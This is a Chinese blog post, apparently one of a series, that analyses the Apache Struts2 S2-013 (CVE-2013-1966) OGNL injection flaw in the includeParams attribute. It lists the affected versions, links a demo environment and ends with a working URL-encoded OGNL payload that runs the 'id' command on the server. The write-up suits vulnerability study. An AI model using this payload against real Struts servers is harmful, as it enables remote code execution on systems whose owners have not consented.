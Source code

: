 ```yaml
---
layout: post
title: "S2-013"
subtitle: 'S2-013漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第八篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-013漏洞,又名CVE-2013-1966漏洞.

> 在Struts2标签中<s:a>和<s:url>都包含一个includeParams属性,其值可设置为none、get 或 all,其对应意义分别为,none:链接不包含请求的任意参数值(默认),get:链接只包含GET请求中的参数和其值,all:链接包含GET和POST所有参数和其值.<s:a>用来显示一个超链接,当includeParams=all的时候,会将本次请求的GET和POST参数都放在URL的GET参数上.这个参数会进行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-013)

#### 漏洞成因

> 在Struts2标签中<s:a>和<s:url>都包含一个includeParams属性,其值可设置为none、get 或 all,其对应意义分别为,none:链接不包含请求的任意参数值(默认),get:链接只包含GET请求中的参数和其值,all:链接包含GET和POST所有参数和其值.<s:a>用来显示一个超链接,当includeParams=all的时候,会将本次请求的GET和POST参数都放在URL的GET参数上.这个参数会进行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.14.1

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```
